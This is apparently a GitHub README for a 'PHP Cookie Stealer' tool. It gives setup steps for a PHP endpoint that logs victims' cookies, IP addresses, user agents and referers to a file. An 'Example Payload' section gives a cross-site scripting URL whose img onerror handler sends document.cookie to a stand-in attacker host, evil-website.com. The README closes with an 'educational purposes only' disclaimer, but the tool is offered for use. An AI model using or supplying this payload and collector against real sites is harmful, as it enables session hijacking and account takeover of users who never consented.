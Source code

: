 # PHP Cookie Stealer

## Usage

1. Clone PHP Cookie Stealer Project
```
git clone https://github.com/TheWation/PhpCookieStealer
```

2. Install a web server with PHP support on your machine if you haven't already. For example, you can install XAMPP, which includes Apache and PHP, from the official website: https://www.apachefriends.org/index.html

3. Create a new directory for your project and navigate into it using a terminal or command prompt.

4. Create a new file called index.php and copy the PHP code into it.

5. Start the web server and navigate to http://localhost/your-project-name/index.php?cookie=your-cookie-value in your web browser, replacing your-project-name with the name of the directory where your project is located, and your-cookie-value with the value of the cookie that you want to log. For example, if the cookie value is ABC123, you would visit http://localhost/your-project-name/index.php?cookie=ABC123.

6. The server will log the date and time, client IP address, user agent, referer, and cookie value to the cookies.txt file in the project directory.
```
[+] Date: 2022/10/03 15:30:45
[+] IP: 127.0.0.1
[+] UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
[+] Referer: http://localhost/your-project-name/index.php
[+] Cookies: ABC123
---
```

7. The server will also return a response with a status code of 200 if the request was successful, or a status code of 500 if there was an error writing to the file.

8. You can repeat step 4 with different cookie values to log additional data to the file.

9. To stop the server, stop the web server software.

## Example Payload
```
https://pentest.target/?name=<img src=x onerror=this.src='http://evil-website.com/input.php?cookie='+document.cookie>
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.